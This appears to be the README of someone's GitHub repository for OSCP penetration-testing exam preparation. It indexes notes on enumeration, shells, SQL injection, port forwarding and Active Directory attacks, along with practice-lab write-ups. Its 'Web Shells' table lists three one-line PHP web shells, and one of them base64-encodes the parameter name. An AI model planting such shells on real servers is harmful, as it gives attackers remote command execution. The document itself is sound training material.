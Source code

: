 # Repository for my OSCP preparation

|Topic|Link|
|---|---|
|cURL|<https://github.com/joetanx/oscp/blob/main/curl.md>|
|Enumerating target|<https://github.com/joetanx/oscp/blob/main/enumeration.md>|
|Getting shells and transferring files to/from target|<https://github.com/joetanx/oscp/blob/main/connect-transfer.md>|
|Port forwarding|<https://github.com/joetanx/oscp/blob/main/port-forwarding.md>|
|SQLi labs|<https://github.com/joetanx/oscp/blob/main/sqli-labs.md>|
|DVWA - SQL injection|<https://github.com/joetanx/oscp/blob/main/dvwa-sqli.md>|
|Attacking Active Directory|<https://github.com/joetanx/oscp/blob/main/attacking-active-directory.md>|
|References|<https://github.com/joetanx/oscp/blob/main/references.md>|

# Experience Tracking

## SQL Injection

<https://github.com/joetanx/oscp/blob/main/practice/vulnhub/dc-9.md>

<https://github.com/joetanx/oscp/blob/main/dvwa-sqli.md>

<https://github.com/joetanx/oscp/blob/main/sqli-labs.md>

## Googling for Exploits

<https://github.com/joetanx/oscp/blob/0f6b0a8a5f387bf0decbd6093807f470f9c7e1e8/practice/itsl/2021-10-04-mousekatool2.md>

<https://github.com/joetanx/oscp/blob/main/practice/itsl/2021-11-22-Checks.md>

<https://github.com/joetanx/oscp/blob/main/practice/vulnhub/digitalworld.local-joy.md>

## Web Shells

|   |   |
|---|---|
|`<?php echo passthru($_GET['k']);?>`|<https://github.com/joetanx/oscp/blob/main/practice/itsl/2021-10-24-Dealer313.md>|
|`<?php system($_GET[base64_decode('Y21k')]);?>`|<https://github.com/joetanx/oscp/blob/main/practice/itsl/2022-01-17-Vulndc2.md>|
|`<?php echo passthru($_GET['cmd']); ?>`|<https://github.com/joetanx/oscp/blob/main/practice/vulnhub/digitalworld.local-joy.md>|

## Active Directory

<https://github.com/joetanx/oscp/blob/main/practice/itsl/2022-01-10-VulnDC.md>

<https://github.com/joetanx/oscp/blob/main/practice/itsl/2022-01-17-Vulndc2.md>
